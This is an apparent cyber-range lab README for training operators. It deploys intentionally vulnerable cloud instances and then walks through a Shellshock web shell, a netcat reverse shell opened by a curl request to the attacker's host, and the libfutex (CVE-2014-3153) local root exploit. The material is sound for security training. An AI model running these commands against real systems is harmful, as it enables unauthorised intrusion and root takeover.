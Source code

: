 # Shell Shock / libfutex Privilege Escalation Example
  
This scenario can be used to train operators to leverage a Shell Shock vulnerability in a PHP web page, along with the 'libfutex' Local Privilege Escalation.

- [Shell Shock](https://www.exploit-db.com/exploits/35146)
- [libfutex](https://www.exploit-db.com/exploits/35370)

## Scenario features

| Feature | Availability | Implemented With |
| --- | ---| --- |
| Targets | Yes | GCE |
| Attackers | Yes | GCE |
| VPC | Yes | VPC |
| Network logs | Yes | VPC Flow Logs |
| PCAPs | No | - |

## Artifacts

* [Terraform Build script](main.tf)
* [Terraform Variables file](terraform.tfvars)
* [Blue Ansible playbook](blue35370.yml)

## Instructions

1. Login to https://console.cloud.google.com/
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/redteam-project/cyber-range-scenarios.git
cd cyber-range-scenarios/scenarios/linux/01_shell_shock_example/
```

4. Use Terraform to Deploy Cyber Range 

```
terraform init
terraform apply

  Enter a value: yes
```

5. SSH to the blue instance `gcloud compute ssh blue-35370 --zone us-east4-a`
6. Accept SSH Key Generation and Set SSH Passphrase

```
Do you want to continue (Y/n)?  Y
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): <PASSPHRASE>
Enter same passphrase again: <PASSPHRASE>
```

7. Clone the meetup, cyber-range-target, and exploit-curation repos

```
git clone https://github.com/redteam-project/cyber-range-scenarios.git
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Run Ansible script to make this instance vulnerable to Shellshock and libfutex

```
sudo ansible-playbook cyber-range-scenarios/scenarios/linux/01_shell_shock_example/blue35370.yml > ~/ansible.out
```

9. Wait for the instance to reboot, then re-log in and remove Supervisor Mode Access Prevention and (NOTE NEED TO ADD nosmap / nosmep to Ansible Script)

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo grubby --args "nosmap nosmep" --update-kernel /boot/vmlinuz-3.10.0-123.1.2.el7.x86_64
sudo reboot
```

10. Now relogin and scan for exploitable vulnerabilities with `lem`

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo pip install lem
sudo lem host assess --curation exploit-curation --kind stride --score 090000
sudo lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
sudo mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell tabs and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the 10.150.0.3 IP address with your blue-35370 Internal IP and the 10.150.0.2 with your red-1 Internal IP.

```
curl -X GET 'http://10.150.0.3/index.php?cmd=nc%20-nv%2010.150.0.2%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a connection to `blue-35370`. Use this Python trick to get a tty and invoke a Bourne shell.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Inside the new shell, Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. 

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```